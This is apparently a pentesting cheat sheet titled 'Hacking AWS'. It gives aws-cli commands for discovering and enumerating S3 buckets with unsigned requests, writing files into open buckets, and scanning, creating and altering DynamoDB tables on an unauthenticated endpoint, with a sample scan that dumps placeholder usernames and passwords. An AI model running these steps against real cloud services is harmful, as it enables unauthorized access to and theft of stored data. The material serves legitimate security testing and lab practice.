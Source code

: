 ```yaml
---
description: >-
  Amazon Web Services is a subsidiary of Amazon providing on-demand cloud
  computing platforms and APIs.
---
```


# Hacking AWS

## S3 Buckets

Amazon S3 has a simple web services interface that you can use to store and retrieve any amount of data, at any time, from anywhere on the web.

### AWS Configuration

You can get your credential here [https://console.aws.amazon.com/iam/home?\#/security\_credential](https://console.aws.amazon.com/iam/home?#/security_credential) but you need an aws account, free tier account : [https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free\_np/](https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/)

```text
aws configure --profile <PROFILE_NAME>
AWSAccessKeyId= <AccessKeyID>
AWSSecretKey= <SecretKey>
Default Region Name= <Region>
Default Output Format = <json or text>
```

Or you can configure by default:

```text
aws configure
```

### Search for S3 Buckets

We need to identify if the service running is a s3.

```text
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
```

You can get the region of a bucket with a dig and nslookup:

```text
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Enumeration

We will use `aws-cli` tool

* Use `--no-sign-request` for check Everyones permissions
* Use `--profile <PROFILE_NAME>` to indicate the previous configuration profile.

#### Search Buckets inside the same host:

```text
aws s3 ls --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

#### List content of a bucket:

```text
aws s3 ls s3://BUCKET-NAME --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

#### Copy content:

```text
aws s3 cp /tmp/FILE s3://BUCKET-NAME --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

## DynamoDB

Amazon DynamoDB is a key-value and document database that delivers single-digit millisecond performance at any scale. It's a fully managed, multi-region, multi-active, durable database with built-in security, backup and restore, and in-memory caching for internet-scale applications.

### List tables

```text
aws dynamodb list-tables --endpoint-url http://s3.DOMAIN.COM/
{
    "TableNames": [
        "TABLENAME"
    ]
}
```

### Get Table Content

```text
aws dynamodb scan --table-name TABLENAME --endpoint-url http://s3.DOMAIN.COM/
{
    "Items": [
        {
            "password": {
                "S": "PWD@#1@#"
            },
            "username": {
                "S": "USER3"
            }
        },
        {
            "password": {
                "S": "PWD!"
            },
            "username": {
                "S": "USER2"
            }
        },
        {
            "password": {
                "S": "PWD"
            },
            "username": {
                "S": "USER1"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

### Create Table

```text
aws dynamodb create-table --table-name TABLENAME--attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 --endpoint-url http://s3.DOMAIN.COM/
```

### Create Item

```text
aws dynamodb update-item --table-name TABLENAME--key file://FILE.json --endpoint-url http://s3.DOMAIN.COM/

# where FILE.json is:

{
    "title": {"S": "TITLECONTENT"},
    "data": {"S": "DATACONTENT"}
}
```

* [https://book.hacktricks.xyz/pentesting/pentesting-web/buckets/aws-s3](https://book.hacktricks.xyz/pentesting/pentesting-web/buckets/aws-s3)
* [https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html)

